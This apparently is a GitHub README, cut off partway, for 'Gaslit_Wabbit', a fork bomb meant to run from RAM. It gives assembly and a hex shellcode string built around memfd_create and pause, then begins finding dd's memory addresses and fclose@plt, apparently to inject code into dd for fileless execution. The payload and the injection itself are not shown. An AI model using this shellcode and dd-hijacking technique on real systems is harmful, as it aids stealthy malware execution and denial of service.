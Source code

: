 # Gaslit_Wabbit
1978 wabbit fork bomb running in Ram

first we get the syscall numbers for
- memfd_create
- pause
- exit

- ```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep memfd_create
```
```#define __NR_memfd_create 319```

- ```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep pause
```
```#define __NR_pause 34```

- ```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep exit
```
```#define __NR_exit 60```



next we create some assembly that will
- duplicate FDs: 10 and 11
```asm
xor rax, rax
xor rdi, rdi
mov di, 10
mov rax, 0x20
syscall
xor rax, rax
inc rdi
mov rax, 0x20
syscall
```
- create an in-memory-only file (syscall 319)
```asm
push 0x78436f73
mov rdi, rsp
mov rsi, 0
mov rax, 319
syscall
```
- suspend the process (syscall 34)
```asm
mov rax, 34
syscall
```
- exit process (syscall 60) (should never be reached)
```asm
xor rax, rax
add rax, 60
xor rdi, rdi
syscall
```
putting it all together:

```asm
BITS 64
global _start
section .text
_start:
        xor rax, rax
        xor rdi, rdi
        mov di, 10
        mov rax, 0x20
        syscall
        xor rax, rax
        inc rdi
        mov rax, 0x20
        syscall
memfd_create:
        push 0x78436f73
        mov rdi, rsp
        mov rsi, 0
        mov rax, 319
        syscall
pause:
        mov rax, 34
        syscall
exit:
        xor rax, rax
        add rax, 60
        xor rdi, rdi
        syscall
```

next, we nasm the assembly code and do a hexdump,

```shell
nasm memfd.asm
```
```shell
hexdump -v -e '"\\""x" 1/1 "%02x" ""' memfd
```
- ```\x48\x31\xc0\x48\x31\xff\x66\xbf\x0a\x00\xb8\x20\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\xff\xc7\xb8\x20\x00\x00\x00\x0f\x05\x68\x73\x6f\x43\x78\x48\x89\xe7\xbe\x00\x00\x00\x00\xb8\x3f\x01\x00\x00\x0f\x05\xb8\x22\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05```

next, we find the PID addresses for DD fclose,

```shell
setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd"
```
```shell
555555554000-555555556000 r--p 00000000 ca:01 262762      /usr/bin/dd
555555556000-555555564000 r-xp 00002000 ca:01 262762      /usr/bin/dd
555555564000-555555569000 r--p 00010000 ca:01 262762      /usr/bin/dd
555555569000-55555556a000 r--p 00014000 ca:01 262762      /usr/bin/dd
55555556a000-55555556b000 rw-p 00015000 ca:01 262762      /usr/bin/dd
```

```shell
objdump -Mintel -d `which dd` | grep fclose
```
```shell
0000000000002170 <fclose@plt>:
    67e6:   e8 85 b9 ff ff     call   2170 <fclose@plt>
    681b:   e9 50 b9 ff ff     jmp    2170 <fclose@plt>
```